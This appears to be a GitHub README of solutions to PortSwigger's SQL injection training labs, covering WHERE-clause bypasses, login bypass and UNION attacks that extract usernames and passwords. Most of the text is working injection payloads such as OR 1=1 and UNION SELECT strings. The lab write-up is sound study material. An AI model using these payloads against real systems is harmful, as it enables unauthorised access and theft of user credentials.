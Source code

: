 # SQL-injection
# Port Swigger SQL injection Labs Solutions <tag>

<h3>- Retrieving hidden data</h3>

[1.Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)


1. *Solutions*
   1. `'+OR+1=1--` -> Required
   >The server can also respond for the following
   1. `'OR+'1'='1--`
   1. `'OR+'1'='1'--`
   1. `'OR+'1'--`
   1. `'OR+true--`
   1. `'OR+'a'='a'--`
   1. `/OR+1=1--`
   1. `)'OR+1=1-- `
   1. `""OR+1=1--`
   1. `)*OR+1=1--`
   
<h3>- Subverting application logic</h3>

[2.Lab: SQL injection vulnerability allowing login bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)

1. *Solutions*
   1. username : `administrator'--` password : `''`
   1. username :`a'OR+1=1--`        password : `''`
  
<h3>- Retrieving data from other database tables</h3>

[3.Lab: SQL injection UNION attack, determining the number of columns returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)

1. *Solutions*
  >The first step of such an attack is to determine the number of columns that are being returned by the query.
  >The server will responed for `'ORDER+BY+1--` `'ORDER+BY+2--` `'ORDER+BY+3--` that mean there are 3 columns in the database.
   
   1. `'+UNION+SELECT+NULL,NULL,NULL-- `
   1. `'UNION+SELECT+NULL,NULL,NULL--`
   1. `'union+select+null,null,null--`
   
[4.Lab: SQL injection UNION attack, finding a column containing text](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)

1. *Solutions*
  The server responed for `'+UNION+SELECT+NULL,'xyz',NULL--` that is mean the second column containing text.
  Make the database retrieve the string: 'IyLLPT' #Noted in the top of the screen,it can be diffrent in your case
   
   1. `'+UNION+SELECT+NULL,'IyLLPT',NULL-- `
   
   
[5.Lab: SQL injection UNION attack, retrieving data from other tables](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)

1. *Solutions*
  By appling `'+UNION+SELECT+NULL,NULL--` we can say the database has tow columns.
  By appling `'+UNION+SELECT+'abc','xyz'--` we can say the columns have string values.
  To retrieve the contents of the users table we can use the following payload
   `'+UNION+SELECT+username,+password+FROM+users--`
  where `username` is the name of first column ,`password` is the name of second column and `users` is the name of the table in the database
  
   __Example__
   
   Database name :   USERS 
   username | password
------------ | -------------
administrator | bp6w7q9023goawolzuyh
Content in the first column | Content in the second column

  Now to solve the challenge go to Response in Burp Suite from raw search for `administrator` and its password `bp6w7q9023goawolzuyh`

